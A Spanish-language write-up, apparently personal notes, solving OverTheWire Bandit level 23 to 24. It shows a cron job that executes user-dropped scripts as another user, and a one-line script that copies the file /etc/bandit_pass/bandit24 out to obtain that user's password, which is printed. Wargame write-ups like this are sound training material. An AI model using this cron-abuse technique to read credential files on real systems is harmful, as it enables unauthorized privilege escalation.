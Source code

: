 # Bandit Level 23 → Level 24
#Bandit #OverTheWire 
## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Solución
Existe una carpeta (/var/spool/$myname/foo) que contiene un scirpt, ejecuta todos los archivos pertenecientes al usuario Bandit 23, esto es una vulnerabilidad pues mediante ese cronjob se puede extraer la contraseña del usuario bandit24.

```bash
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/etc/cron.d$ mkdir /tmp/jdv01
bandit23@bandit:/etc/cron.d$ cd /tmp/jdv01
bandit23@bandit:/tmp/jdv01$ nano script_jdv.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/jdv01$ cat script_jdv.sh
cat /etc/bandit_pass/bandit24 > /tmp/jdv01/password
bandit23@bandit:/tmp/jdv01$ chmod 777 script_jdv.sh
bandit23@bandit:/tmp/jdv01$ touch password
bandit23@bandit:/tmp/jdv01$ chmod 666 password
bandit23@bandit:/tmp/jdv01$ cp script_jdv.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/jdv01$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

```

===VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar===

## Notas adicionales

## Referencias